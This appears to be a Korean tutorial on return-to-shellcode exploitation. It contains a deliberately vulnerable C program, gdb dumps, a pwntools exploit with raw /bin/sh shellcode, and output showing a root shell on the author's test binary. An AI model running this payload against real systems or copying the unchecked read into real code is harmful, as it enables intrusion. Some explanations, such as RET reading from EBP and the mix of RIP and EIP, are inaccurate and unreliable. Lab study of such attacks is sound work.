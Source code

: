 ## Concept

Return address 영역에 Shellcode가 저장된 주소로 변조해, Shellcode 호출하는 기법이다.

#### **CALL**
1. Return address를 Stack에 저장하고, 피연산자 주소로 이동.

#### **RET**
1. EBP 레지스터가 가리키는 Stack 영역의 값을 RIP 레지스터에 저장
1. JMP 명령을 통해 RIP에 저장된 영역으로 이동

```
; CALL
push return_address
jmp

; RET
pop eip
jmp eip
``` 

## **Proof of Concept**  

```c
// Vuln Code
// gcc -z execstack -fno-stack-protector -o test test.c
#include <stdio.h>
#include <unistd.h>

void vuln(){
    char buf[50];
    printf("buf[50] address : %p\n",buf);
    read(0, buf, 100);
}

void main(){
    vuln();
}
```

"A"62 + "B"4 입력 시 Return address 조작이 가능하다.

```
gdb-peda$ x/24wx $ebp
0xbfe98a78:	0x41414141	0x42424242	0xb7f233dc	0xbfe98aa0
```

변조된 메모리 구조.

```
gdb-peda$ x/24wx $ebp
0xbfa06f08:	0x41414141	0x42424242	0xb7eda30a	0xbfa06f30
0xbfa06f18:	0x00000000	0xb7d40637	0xb7eda000	0xb7eda000
```

ASLR 적용되어 있어 Stack 주소 랜덤하지만 지역변수 buf의 주소가 출력되므로 buf에 Shellcode 삽입하고 Return address에 buf 주소 삽입하여 Shellcode 실행할 수 있다.

## **Exploit Code**
```python
# Exploit Code
from pwn import *

p = process('./test')
recv = p.recvline()
buf = int(recv.split(' ')[3].split('n')[0],16)
print('buf: '+hex(buf))

p.sendline('\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xcd\x80'+'A'*31+ p32(buf))
p.interactive()
```

## **Exploit**
```shell
bs@bs-virtual-machine:~/vulns/RTS$ python exploit.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process './test': pid 16624
buf: 0xbfe9be8e
[*] Switching to interactive mode
1󿾱ٱəxb0xa4̀jx0bXQh//shh/binx89㊑̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAx8exbe
$                                                                             id
uid=0(root) gid=1000(bs) groups=1000(bs),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

**Refereces**  
[https://www.lazenca.net/display/TEC/02.Return+to+Shellcode](https://www.lazenca.net/display/TEC/02.Return+to+Shellcode)

